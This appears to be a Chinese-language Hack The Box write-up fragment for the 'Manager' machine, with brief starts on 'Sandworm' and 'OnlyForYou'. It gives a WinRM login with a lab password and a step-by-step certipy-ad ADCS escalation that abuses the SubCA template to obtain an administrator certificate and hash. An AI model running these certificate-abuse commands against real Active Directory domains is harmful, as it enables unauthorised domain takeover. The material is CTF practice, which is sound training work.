 使用`evil-winrm`登录
`evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'`

#### root
ADCS提权
> 由于这是一台Active Directory计算机，因此域可能包含作为公钥基础结构的Active Directory证书服务（ADCS）。ADCS可能包含严重的漏洞，可利用这些漏洞获取其他用户的证书和哈希，从而允许权限提升。（另请参阅https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
......



然后使用`certipy-ad`这个工具创建一个'officer'账户来为我授权

```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
#创建一个新的ca机构'manager-DC01-CA',这个机构的管理员为raven
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123'
#启用名为 SubCA 的证书模板。这个模板通常用于签发子CA证书。
certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 'administrator@manager.htb'
#执行这个命令后,将向 manager-DC01-CA 证书颁发机构请求签发一个新的子 CA 证书。这个子 CA 证书将被颁发给域 manager.htb,并使用启用的 SubCA 模板进行签发。同时,证书中将包含 administrator@manager.htb 的用户主体名称(UPN)。
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 23 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123*'
#这块一直失败Got access denied trying to issue certificate....manager-DC01-CA 证书颁发机构将签发之前通过 certipy-ad req 命令提交的请求ID为17的证书请求，并生成一个新的子CA证书。
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 23
#是使用指定的用户名和密码，在指定的证书颁发机构（CA）上请求一个证书，并将该证书检索回来
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.10.11.236
```

最后获取admin的密码hash
`certipy-ad auth -pfx administrator.pfx  -dc-ip 10.10.11.236`

### Sandworm
#### user
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230722155953.png)

443: flask
`/login`存在登录框,secret_key爆破失败,
`/contact`与`/gudie`路由存在一个发送消息的地方,采用pgp加密技术,存在ssti

### OnlyForYou

#### user

![image-20230426235837003](https://gitee.com/leiye87/typora_picture/raw/master/20230426235840.png)
